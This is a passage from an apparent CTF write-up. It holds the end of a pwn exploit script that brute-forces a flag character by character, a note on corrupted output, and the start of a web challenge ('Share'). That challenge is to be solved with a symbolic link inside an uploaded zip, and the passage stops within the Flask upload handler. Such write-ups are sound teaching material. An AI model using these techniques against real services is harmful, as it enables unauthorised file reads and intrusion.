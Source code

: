         idx += 1
        flag += chr(guess)
        print(flag)
    print(flag)

    r.interactive()
    ```
    * <font color="FF0000">Note that</font>: The exploit program will be affected by the internet connection and caused the result is wrong like this:
    ```
    FLA!{CORORO_f8b7d5d23ad03512P6687384b7a2a/00}
    'LAG{CORORO_f8b7d5d23ad03512d6687384b7a2a500}
    *LAG{C*RORO_f8b7d5d23ad03512d6687384b7a2a500}
    FLAG{CO#/RO_f8b7d5d23ad03512d6687384b7a2a500}
    FLAG{CAMORO_f8b7d5d/3ad03512d6687384!7a2a500xX
    ```
    Thus, you can run much more times to compare the result together so that you can patch up the flag correctly.

#### Reference
[EOF 2023](/SkxNKJBqi#how2_know_revenge)


## Web

### Share

#### Description
* Challenge [URL](https://share.ctf.zoolab.org/)

* Folder structure:
    ```
    Share
    ├── Web
    │   ├── src
    │   │   ├── static
    │   │   │    └── {None}
    │   │   ├── template
    │   │   │    ├── index.html
    │   │   │    └── login.html
    │   │   └── app.py
    │   └── Dockerfile
    ├── docker-compose.yaml
    └── flag
    ```
* This website function is let the user can upload compress folder <font color="FF0000">(\*.zip)</font> and the compress folder must contains a <font color="FF0000">`index.html`</font> file so that it can uncompress the folder then redirect to this new page.
* To solve this question, we must use [<font color="FF0000">**`symbolic link`**</font>](https://youtu.be/jdZsO2GAf2I)

#### Observation
* Main program first - **`app.py`**
This part is aim to unzip the compress folder and redirect to new page - `index.html` that the user provide
    ```python!
    ...
    @app.route('/upload', methods=['POST'])
    def upload_file():
      if 'user' not in session:
        return 'Login first'
      if 'file' not in request.files or not request.files['file'].filename:
        return 'Missing file'
